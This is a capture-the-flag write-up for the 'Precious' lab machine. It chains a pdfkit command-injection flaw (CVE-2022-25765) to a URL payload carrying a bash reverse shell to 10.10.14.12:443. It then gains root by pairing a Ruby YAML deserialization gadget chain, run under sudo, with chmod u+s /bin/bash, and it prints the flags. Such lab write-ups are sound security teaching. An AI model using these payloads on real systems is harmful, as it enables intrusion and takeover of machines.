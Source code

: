 # Precious
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's run nmap to check if there are any ports open.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276690-4fe354b9-3638-442c-9480-5805e5c76317.png)


2. Notice the machines seems running a web application, let's open the host on the web browser.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211276928-1b29c212-2439-47e0-bb58-720df75f81ff.png)


3. Let's enter `http://google.com`.

> RESULT


![image](https://user-images.githubusercontent.com/70703371/211277475-e4846599-d902-479b-b914-f14759cebfd4.png)


4. Already tried to enter my own ip but didn't get any pdf.
5. Let's serve http on port 8000 first.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278408-539b23c8-4444-4b66-b25c-523dbc65ae6c.png)


![image](https://user-images.githubusercontent.com/70703371/211278442-8bd11666-3bf6-4d31-9e18-6631343ef3ca.png)


6. Great! We got it.
7. Check the meta data, to see if we can grab any clue.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211278752-fed9eaf3-6a3e-4eba-9701-42d0d4a7db02.png)


8. Notice the version of pdfkit is outdated and it's vulnerable.

> WRITTEN IN CVE MITRE

```
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25765
```

9. Hence i did a small outsource about the approach they used for this vuln, found this link.

```
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
```

![image](https://user-images.githubusercontent.com/70703371/211280009-f3ea6bd2-9dcb-4218-9a6c-21564f5b39a0.png)


10. Let's use this payload.

![image](https://user-images.githubusercontent.com/70703371/211281122-658a8d9e-aeef-4b09-9790-90346f7bc779.png)


![image](https://user-images.githubusercontent.com/70703371/211281160-fc388b59-a2b1-4090-ae7c-4f14b5cbe665.png)



11. But change the "sleep" to this:

> REVERSE SHELL FOR BASH

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'
```

> FULL PAYLOAD

```
http://10.10.14.12:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/443 <&1'`'}
```

12. Set a listener using pwncat for port 443 because we use it on the payload, then submit the payload.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211281893-6d255475-b83c-4d5a-a4b4-95e1dca8bb68.png)


13. Nice, got the shell!

![image](https://user-images.githubusercontent.com/70703371/211282031-5b3733aa-a97b-43d1-ba4f-bdd2c5a8d20a.png)


14. Since we're not root, let's find the **user** flag.
15. Actually it took a while for me, i didn't find the user flag, but when i found a cred.

> CRED

![image](https://user-images.githubusercontent.com/70703371/211282795-4ac4805d-0d06-479e-a546-b724ade8623b.png)


![image](https://user-images.githubusercontent.com/70703371/211282841-1ab9201b-0882-42dc-b3db-a58d6251d0bb.png)


![image](https://user-images.githubusercontent.com/70703371/211282892-0983fd9a-a908-4ded-81a6-fd7d9c1e4aed.png)


16. Let's try login to henry with ssh.

> LOGGED IN

![image](https://user-images.githubusercontent.com/70703371/211283134-5b91c51d-bac1-4347-b43c-a4b5accd3f04.png)


![image](https://user-images.githubusercontent.com/70703371/211283181-d5f3768e-9de6-4663-8da5-1e92a3a7d620.png)


![image](https://user-images.githubusercontent.com/70703371/211283211-6ab3fdc2-86c6-4b6d-8e9f-0fe35035fc81.png)


17. Got the user flag.

## FLAG

```
3e73f31984a909e91e2952956243e048
```

18. Now for the root flag, we need to do privilege escalation.

![image](https://user-images.githubusercontent.com/70703371/211283528-aa43f568-2da8-4446-8dd2-9f03df4ef2f8.png)


![image](https://user-images.githubusercontent.com/70703371/211283681-9058d08a-0cb8-476d-85b1-a0ed887b1b1f.png)


![image](https://user-images.githubusercontent.com/70703371/211283919-d9f6f185-50df-428a-93cd-c0ea01e8b8e3.png)


19. Got a clue here:

![image](https://user-images.githubusercontent.com/70703371/211284959-72f6a994-de97-43dc-bdb6-7ddde19ab333.png)


20. Maybe we can do RCE through YAML upload file.
21. I did a small outsource about this yaml exploit. Turns out find [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) website and there's a ruby script to do RCE.

> THE SCRIPT

```rb
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

22. Change the git_set value to `chmod u+s /bin/bash`.

```rb
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```

23. Now make a new file named `dependencies.yml` then paste the script inside it. 
24. Next, to run the script, remember what we got from `sudo -l`.

> sudo -l

![image](https://user-images.githubusercontent.com/70703371/211287339-32dbd1cf-041f-4d4e-8e60-2d8629d355a8.png)


25. Hence, the command is -> `sudo /usr/bin/ruby /opt/update_dependencies.rb`

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211289639-890b827a-2837-4666-a99c-587d385b5f19.png)


26. Now run `bash -p`.

> RESULT - GOT ROOT

![image](https://user-images.githubusercontent.com/70703371/211291113-c2f2e37f-bf5a-4df3-8d7a-62c5dab142c6.png)


![image](https://user-images.githubusercontent.com/70703371/211291193-936e3376-89cb-4336-905f-44784a463a7d.png)


27. Got the root flag!

## FLAG

```
dbb4250350277d64ed7effdf09e7b59d
```
